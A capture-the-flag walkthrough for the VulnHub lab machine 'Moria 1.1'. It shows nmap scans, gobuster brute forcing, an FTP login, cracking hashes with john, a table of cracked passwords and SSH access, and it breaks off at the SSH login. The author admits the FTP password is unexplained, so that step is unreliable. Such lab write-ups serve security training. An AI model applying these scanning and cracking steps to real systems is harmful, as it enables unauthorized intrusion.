::::::::::::::::::: page
# Moria: 1.1 {#moria-1.1 .title}

\

## 

## Moria: 1.1

- **[Moria: 1.1]{style="color:#5e5c64;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/moria-1,187/>



- Extract the rar file .
- Open ovf file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#3f4043;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.192
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.192
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.192  
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.192
:::



1.  [Web Enumeration]{style="color:#3f4043;"} :

- IP visit in browser : <http://192.168.2.192>



- Hint :

::: codebox
    Password : mellon
:::

<http://192.168.2.192/w/>

<http://192.168.2.192/w/h/i/s/p/e/r/the_abyss/>



- Now run the gobuster for directory brute force :

::: codebox
    gobuster dir -u http://192.168.2.192/w/h/i/s/p/e/r/the_abyss/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
:::



- Visit the hidden endpoint :
  <http://192.168.2.192/w/h/i/s/p/e/r/the_abyss/random.txt>



- Hint : Users :

::: codebox
    Balin
    Oin
    Ori
    Fundin
    Nain
    Maeglin
    Telchar
    Thrain
    Dain
:::

1.  [FTP Enumeration]{style="color:#3f4043;"} :

- Login ftp :

::: codebox
    ftp 192.168.2.192
:::

 Try to login anonymous but not login .

- Again login :

::: codebox
    Username : Balrog
    Password : Mellon69
:::

- 

::: codebox
    ftp 192.168.2.192
:::



- Note : Password me 69 kha se aaya pta nhi exactly, but v1.1 me yhi
  works krta h --- enumeration se directly derive karna possible nahi
  tha .

<!-- -->

- After login navigate the directory :

::: codebox
    cd /var/www/html
:::

- Check list the file :

::: codebox
    ls
:::



- Visit the hash directory in browser :
  <http://192.168.2.192/QlVraKW4fbIkXau9zkAPNGzviT3UKntl/>



- View the source code :
  view-source:<http://192.168.2.192/QlVraKW4fbIkXau9zkAPNGzviT3UKntl/>



1.  [Password Crack]{style="color:#3f4043;"} :

- Make a file and add the content :

::: codebox
    nano hashes.txt
:::



- Run the john command to brute force the command :

::: codebox
    john --format=dynamic_6 hashes.txt --wordlist=/opt/rockyou.txt
:::



- Found cracked password with username :

  Username   Password
  ---------- ----------
  Balin      flower
  Nain       warrior
  Ori        spanky
  Dain       abcdef
  Maeglin    fuckoff
  Thrain     darkness
  Telchar    magic
  Fundin     hunter2

1.  [SSH Access]{style="color:#3f4043;"} :

- Login ssh with Ori user :

::: codebox
    ssh Ori@192.168.2.192
:::


:::::::::::::::::::
